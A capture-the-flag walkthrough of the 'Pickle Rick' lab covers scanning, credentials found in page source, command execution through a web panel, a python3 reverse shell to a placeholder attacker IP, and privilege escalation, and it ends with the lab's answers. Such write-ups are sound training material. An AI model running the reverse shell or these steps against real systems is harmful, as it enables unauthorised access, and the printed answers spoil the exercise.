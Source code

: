 # Pickle Rick

Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!

```
ip = 10.10.131.77
```

## Nmap
```
nmap -sC -sV -oN initial.log 10.10.131.77
```

>22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
>
>80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

## Task 1.

```
nikto -h http://10.10.131.77 | tee nikto.log
```

> \+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
>
> \+ /login.php: Admin login page/section found.

After inspecting the webpage you can find:

>*Note to self, remember username!*
>
>**Username:** `R1ckRul3s`

Looking into `http://10.10.131.77/robots.txt`, we can find:

> Wubbalubbadubdub

Using **gobuster** I'm going to scan `http://10.10.131.77/` for hidden directories or files using a wordlist and checks specified file extensions like php or txt.

```
gobuster dir -u http://10.10.131.77/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,sh,cgi,html,css,js,py
```

>/index.html           (Status: 200) [Size: 1062]
>
>/login.php            (Status: 200) [Size: 882]
>
>/assets               (Status: 301) [Size: 313] [--> http://10.10.131.77/assets/]
>
>/portal.php           (Status: 302) [Size: 0] [--> /login.php]

Access the login at `http://10.10.131.77/login.php` with:

>**Username:** R1ckRul3s
>
>**Password:** Wubbalubbadubdub

I find a command pannel where I can insert bash commands. Now, I am going to show the commands tried and the outputs:

```
ls -al

total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

```
cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

```
more Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

```
nl Sup3rS3cretPickl3Ingred.txt

1	mr. meeseek hair
```

Also, with the following command I could print the contents of all the files in the current folder:

```
grep -R .
```

```
find / -type f -name '*secret*'

/snap/core/17200/etc/ppp/chap-secrets

/snap/core/17200/etc/ppp/pap-secrets

/snap/core/17200/usr/share/ppp/chap-secrets

...

```

```
find / -type f -name '*ingredient*'

/home/rick/second ingredients

```

```
nl /home/rick/'second ingredients'

1	1 jerry tear
```

Inspecting the html I find this: ` Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== `. It seems as a base64 string, so, I'm going to try to decode it:

```
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d

rabbit hole
```

I will attempt to gain access to a root terminal to check if the third ingredient is concealed in a protected file. In order to achieve this I am going to use: Reverse Shell. So, I go to `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` and I look what has the system installed:

```
which php perl python python3 asp

/usr/bin/php

/usr/bin/perl

/usr/bin/python3
```

First, I run in my machine:

```
ip addr show tun0
```

```
nc -lnvp 9999
```

Starting with python3, looking at the cheatsheet I run in the webpage Command Panel:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This grants me access to a shell, but it doesnt work very well. So, I am going to stabilize this shell. In order to do it I am going to use: `stabilize_shell.sh` script. Once stablished I upload the file `linpeas.sh` to search for possible paths to escalate privileges with the script `upload_file.py`. Once I run `linpeas.sh` I find that the sudo version is vulnerable (is an old version) but also, the regular user can start a sudo terminal. Once I am with privileged access, I access the root terminal and I find the file `3rd.txt`.

```
cat 3rd.txt

3rd ingredients: fleeb juice
```


1. What is the first ingredient that Rick needs?

    `mr. meeseek hair`

2. What is the second ingredient in Rick’s potion?

    `1 jerry tear`

3. What is the last and final ingredient?

    `fleeb juice`